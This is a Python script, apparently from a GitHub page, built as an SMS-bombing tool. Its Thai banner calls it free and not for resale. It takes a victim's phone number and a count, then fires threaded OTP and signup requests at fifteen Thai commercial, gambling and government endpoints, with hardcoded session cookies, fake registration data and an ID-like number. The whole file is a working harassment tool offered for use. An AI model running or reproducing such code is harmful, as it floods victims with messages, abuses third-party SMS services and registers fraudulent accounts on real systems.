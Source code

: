 import requests
import time
import threading
from threading import Thread
print ("")
print ("ของฟรีไอสัส ห้ามขาย ห้ามรับยิง")
print ("")
phone = input("เบอร์ : ")
NUM = int(input("จำนวน : "))

print ("𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺....")
print ("")

def api():
	requests.post("https://api-customer.lotuss.com/clubcard-bff/v1/customers/otp", data={"mobile_phone_no":phone})
	print ("𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : LOTUSS")
	
def api2():
	requests.post("https://www.aurora.co.th/signin/otp_chk",data=f"mobile={phone}&type_otp=3")
	print ("𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : JASON")
	
def api3():
	requests.post("https://tamjaibet.com/api/request/otp", data={"phoneNumber": "0"+phone,"token":"HFdjc3ZU4WAnxLQQcCWB0TWV9zPCdpWmFpCUApNUtwAENbCGJkEAR9ckcdc20XMFR8HVQhEkREXwIOcDwnKRl1LDpXaQMJYB8ZSBQzZRdpem4YF3VHST0BYVQTU1NEcQATSSgpOnY3ZS9ZAFw3WSZXASwecS4LZD5wWhRicklxFQ1cFVAiczQOYxYSfUkaTD1sSSFTZU0mRDoZciRkEHV9dTE"})
	print ("𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : MOVDIER")
	
def api4():
	requests.post("https://store.boots.co.th/api/v1/guest/register/otp-challenge",json={"phone_number": "+66"+phone})
	print ("𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : BOOT")
	
def api5():
	requests.post("https://www.carsome.co.th/website/login/sendSMS",json={"username":"phone","optType":0})
	print ("𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : PYTHON2")
	
def api6():
	requests.post("https://gamingnation.dtac.co.th/api/otp/generate",json={"template":"register","phone_no":"phone"})
	print ("𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : OTP ")
	
def api7():
	requests.post("https://cognito-idp.ap-southeast-1.amazonaws.com/",headers={"user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","content-type": "application/x-amz-json-1.1","x-amz-target": "AWSCognitoIdentityProviderService.SignUp","x-amz-user-agent": "aws-amplify/0.1.x js","referer": "https://www.bugaboo.tv/members/signup/phone"},json={"ClientId":"6g47av6ddfcvi06v4l186c16d6","Username":f"+66{phone[1:]}","Password":"098098Az","UserAttributes":[{"Name":"name","Value":"Dbdh"},{"Name":"birthdate","Value":"2005-01-01"},{"Name":"gender","Value":"Male"},{"Name":"phone_number","Value":f"+66{phone[1:]}"},{"Name":"custom:phone_country_code","Value":"+66"},{"Name":"custom:is_agreement","Value":"true"},{"Name":"custom:allow_consent","Value":"true"},{"Name":"custom:allow_person_info","Value":"true"}],"ValidationData":[]})
	print ("𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : NODE")
	
def api8():
	requests.post("https://cognito-idp.ap-southeast-1.amazonaws.com/",headers={"cache-control": "max-age=0","user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","content-type": "application/x-amz-json-1.1","x-amz-target": "AWSCognitoIdentityProviderService.ResendConfirmationCode","x-amz-user-agent": "aws-amplify/0.1.x js","referer": "https://www.bugaboo.tv/members/resetpass/phone"},json={"ClientId":"6g47av6ddfcvi06v4l186c16d6","Username":f"+66{phone[1:]}"})
	print ("𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : PYTHON")
	
def api9():
	requests.post("https://api.scg-id.com/api/otp/send_otp", headers={"Content-Type": "application/json;charset=UTF-8"},json={"phone_no": phone})
	print ("𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : JAVA")
	
def api10():
	requests.post("https://ep789bet.net/auth/send_otp", data={"phone":phone})
	print ("𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : C")
	
def api11():
	requests.post("http://b226.com/x/code", data={f"phone":phone})
	print ("𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : C+")
	
def api12():
	requests.post("https://www.msport1688.com/auth/send_otp", data={"phone":phone})
	print ("𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : HTML")
	
def api13():
	requests.get("https://m.redbus.id/api/getOtp?number="+phone[1:]+"&cc=66&whatsAppOpted=true",headers={"traceparent": "00-7d1f9d70ec75d3fb488d8eb2168f2731-6b243a298da767e5-01","user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36"}).text
	print ("𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : PHP")
	
def api14():
	requests.post("https://www.msport1688.com/auth/send_otp", data={"phone":phone})
	print ("𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : MC∆T")
	
def api15():
	requests.post('https://www.sso.go.th/wpr/MEM/terminal/ajax_send_otp',headers = {"User-Agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","Content-Type": "application/x-www-form-urlencoded; charset=UTF-8","X-Requested-With": "XMLHttpRequest","Cookie": "sso_local_storeci_sessions=KHj9a18RowgHYWbh71T2%2FDFAcuC2%2FQaJkguD3MQ1eh%2FlwrUXvpAjJgrm6QKAja4oe7rglht%2BzO6oqblJ4EMJF4pqnY%2BGtR%2F0RzIFGN0Suh1DJVRCMPpP8QtZsF5yDyw6ibCMf2HXs95LvAMi7KUkIeaWkSahmh5f%2F3%2FqcOQ2OW5yakrMGA1mJ5upBZiUdEYNmxUAljcqrg7P3L%2BGAXxxC2u1bO09Oz4qf4ZV9ShO0gz5p5CbkE7VxIq1KUrEavn9Y%2BarQmsh1qIIc51uvCev1U1uyXfC%2F9U7uRl7x%2FVYZYT2pkLd3Q7qnZoSNBL8y9wge8Lt7grySdVLFhw9HB68dTSiOm1K04QhdrprI7EsTLWDHTgYmgyTQDuz63YjHsH5MUVanlfBISU1WXmRTXMKbUjlcl0LPPYUR9KWzrVL7sXcrCX%2FfUwLJIU%2F7MTtDYUx39y1CAREM%2F8dw7AEjcJAOA%3D%3D684b65b9b9dc33a3380c5b121b6c2b3ecb6f1bec; PHPSESSID=1s2rdo0664qpg4oteil3hhn3v2; TS01ac2b25=01584aa399fbfcc6474d383fdc1405e05eaa529fa33e596e5189664eb7dfefe57b927d8801ad40fba49f0adec4ce717dd5eabf08d7080e2b85f34368a92a47e71ef07861a287c40da15c0688649509d7f97eb2c293; _ga=GA1.3.1824294570.1636876684; _gid=GA1.3.1832635291.1636876684"},data=f"dCard=1358231116147&Mobile={phone}&password=098098Az&repassword=098098Az&perPrefix=Mr.&cn=Dhdhhs&sn=Vssbsh&perBirthday=5&perBirthmonth=5&perBirthyear=2545&Email=nickytom5879%40gmail.com&otp_type=OTP&otpvalue=&messageId=REGISTER")
	print ("𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : END")
	
	

for i in range(NUM):
	threading.Thread(target=api).start()
	threading.Thread(target=api2).start()
	threading.Thread(target=api3).start()
	threading.Thread(target=api4).start()
	threading.Thread(target=api5).start()
	threading.Thread(target=api6).start()
	threading.Thread(target=api7).start()
	threading.Thread(target=api8).start()
	threading.Thread(target=api9).start()
	threading.Thread(target=api10).start()
	threading.Thread(target=api11).start()
	threading.Thread(target=api12).start()
	threading.Thread(target=api13).start()
	threading.Thread(target=api14).start()
	threading.Thread(target=api15).start()
